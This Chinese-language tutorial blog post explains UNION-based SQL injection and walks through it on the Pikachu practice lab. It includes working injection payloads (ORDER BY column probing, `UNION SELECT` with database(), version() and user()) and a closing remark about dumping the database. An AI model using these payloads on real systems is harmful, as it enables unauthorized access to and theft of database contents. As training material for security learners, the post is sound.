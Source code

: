 ```yaml
---
layout: post
title: 'SQL注入之联合查询注入'
date: "2025-02-09T00:38:23Z"
---
```

SQL注入之联合查询注入
============

SQL注入之联合查询注入
============

一、联合查询注入原理
----------

联合查询注入是一种常见的SQL注入攻击手法，其核心原理是利用SQL中的`UNION`操作符将多个`SELECT`语句的结果集合并，从而返回一个统一的结果集。在使用`UNION`时，必须确保前后两个查询的列数相同，且对应列的数据类型兼容。攻击者通过构造恶意查询，将数据库中的敏感信息（如数据库名称、表名、列名等）与正常查询结果一并输出，从而窃取关键数据。这种攻击方式通常用于探测数据库结构并获取未经授权的信息。

二、联合查询注入方法
----------

联合查询注入的方法一共分三步：

1.  **确定列数**：通过`ORDER BY`子句利用二分法确定查询的列数（超出列数时会报错）。
2.  **确定可显示列**：利用`UNION SELECT`，将数字或字符串替换到不同列，找出回显数据的列。
3.  **获取数据**：构造恶意查询，获取数据库中的敏感信息。

例如某个功能的SQL语句如下：

    SELECT id, name, age, sex FROM students WHERE name LIKE '%用户输入%'
    

### ①确认列数

我们可以在【用户输入】中输入 `1' ORDER BY 4 --`，此时 SQL 语句会被拼接为：

    SELECT id, name, age, sex FROM students WHERE name LIKE '%1' ORDER BY 4 --%'
    

当使用 `ORDER BY 4` 时，SQL 语句不会报错；然而，当使用 `ORDER BY 5` 时，SQL 语句会抛出错误：`ERROR 1054 (42S22): Unknown column '5' in 'order clause'`。

通过观察是否出现报错，我们可以确定查询结果中的列数。

### ②确定可显示列

由于 SQL 查询语句中的字段不会全部显示在页面上或通过接口返回，因此我们需要通过 `UNION SELECT` 将数字或字符串替换到不同的列，以确定回显数据的位置。

我们可以在【用户输入】中输入 `1' UNION SELECT 1, 2, 3, 4 --`，此时 SQL 语句会被拼接为：

    SELECT id, name, age, sex FROM students WHERE name LIKE '%1' UNION SELECT 1, 2, 3, 4 --%'
    

通过观察页面，我们可以查找是否有数据显示为 `1`、`2`、`3` 或 `4`（如果原本数据中已经存在 `1`、`2`、`3`、`4`，则可以替换为其他数据）。如果存在，则这些位置即为可显示列。

### ③获取数据

在找到可显示列后，我们就可以利用这些位置查询所需的数据。例如，假设位置 3 是可显示列，我们可以在【用户输入】中输入 `1' UNION SELECT 1, 2, user(), 4 --`，此时 SQL 语句会被拼接为：

    SELECT id, name, age, sex FROM students WHERE name LIKE '%1' UNION SELECT 1, 2, user(), 4 --%'
    

通过这种方式，我们可以在页面上查看到 `SELECT user()` 的返回内容。

三、联合查询注入实例
----------

在Pikachu中，进行实践。

### ①确认列数

在输入框中分别输入以下内容：

*   `1' order by 3 #`  
    ![image](https://img2024.cnblogs.com/blog/2972727/202502/2972727-20250208133754140-110722008.png)
*   `1' order by 4 #`  
    ![image](https://img2024.cnblogs.com/blog/2972727/202502/2972727-20250208133824902-1627571773.png)

通过观察页面响应，可以确认查询结果的列数为 3。

### ②确定可显示列

在输入框输入：`1' UNION SELECT 1, 2, 3 #`

![image](https://img2024.cnblogs.com/blog/2972727/202502/2972727-20250208135019335-1831145084.png)

发现三个字段均可显示

### ③获取数据

在输入框输入：`1' UNION SELECT database(), version(), user() #`

![image](https://img2024.cnblogs.com/blog/2972727/202502/2972727-20250208135209985-225696731.png)

随便在某个字段进行查询脱库